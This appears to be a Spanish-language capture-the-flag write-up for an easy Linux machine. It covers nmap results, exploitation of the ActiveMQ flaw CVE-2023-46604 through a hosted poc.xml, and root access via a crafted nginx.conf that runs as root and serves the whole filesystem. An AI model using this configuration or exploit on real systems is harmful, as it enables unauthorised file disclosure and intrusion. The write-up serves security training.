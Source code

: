 ### nmap
#Linux #Easy #fuzzing 
```python
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1234/tcp  open  hotline?
1337/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
1883/tcp  open  mqtt
```

### Enumeracion del puerto 80

![[Pasted image 20240611201851.png]]

tenemos información sobre la pagina. esto es importante para poder buscar vulnerabilidades o exploits
### buscamos información sobre el framework

![[Pasted image 20240611201900.png]]

searchsploit nos indica que tenemos varios sploits  para poder vulnerar este framework asi que haremos una busqueda en internet

### CVE-2023-46604

![[Pasted image 20240611201919.png]]
### ejecutamos el exploit
abrimos un servidor en python para poder hacer el llamado del poc.xml y ejecutamos

![[Pasted image 20240611201937.png]]
tenemos conexión 

### Escalada de privilegios 

![[Pasted image 20240611201954.png]]

### copiamos el archivo nginx.conf al directorio tmp para poder editarlo
```python
user root;
events {
	worker_connections 768;
}
http {
	server {
		listen 9001;
		root /;
		autoindex on;
	}
}
```
si nos da un error podemos cambiar el puerto de listen por otro
![[Pasted image 20240611202021.png]]
finalmente podemos hacer un curl al localhost apuntando al puerto listen que especificamos y al directorio donde buscaremos el archivo que necesitamos
![[Pasted image 20240611202036.png]]
### WE ARE ROOT
